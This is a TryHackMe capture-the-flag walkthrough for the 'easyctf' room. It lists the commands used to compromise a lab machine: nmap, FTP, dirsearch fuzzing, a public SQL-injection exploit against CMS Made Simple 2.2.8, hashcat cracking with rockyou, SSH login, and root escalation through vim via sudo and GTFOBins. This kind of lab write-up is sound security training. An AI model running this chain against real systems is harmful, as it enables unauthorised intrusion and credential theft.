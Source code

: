 # easyctf room

https://tryhackme.com/room/easyctf

1) nmap -A MachineIp

How many services are running under port 1000?
What is running on the higher port?

2) ftp MachineIp
- ls
- cd pub
- ls
- mget *

- grab ForMitch.txt

3) dirsearch -u MachineIp -w SecLists/Raft-large 

- Directory fuzzing -> get path /simple

4) MachineIp/simple

- CMS Made Simple
- Version 2.2.8

5) Exploit DB or Sploitus

What's the CVE you're using against the application? 
To what kind of vulnerability is the application vulnerable?

- Go see if there is a vulnerability or an cve to CMS Made Simple with the version 2.2.8
- Tip: type of vulnerability is SQL Injection
- Download exploit

6) Use exploit

- python2 46635.py -u MachineIp/simple
- get hash_passwordPart1 / username / email / hash_passwordPart2

7) hashcat

What's the password?
Where can you login with the details obtained?

- Use hashcat to decrypt the password hash
- hashcat -O -a 0 -m 20 passwordPart2:passwordPart1 /rockyou.txt
- get password

8) Connect to machine on port 2222

What's the user flag?
Is there any other user in the home directory? What's its name?
What can you leverage to spawn a privileged shell?

- ssh mitch@MachineIp -p 2222
- connected to the machine:2222
- bash
- ls 
- cat X.txt
- cd /home -> ls OR ls /home
- sudo -l (check what commands can be used by the user)

9) Use binays to bypass local security restrictions in misconfigured systems.

What's the root flag?

- https://gtfobins.github.io/
- look for vim 
- get root flag 

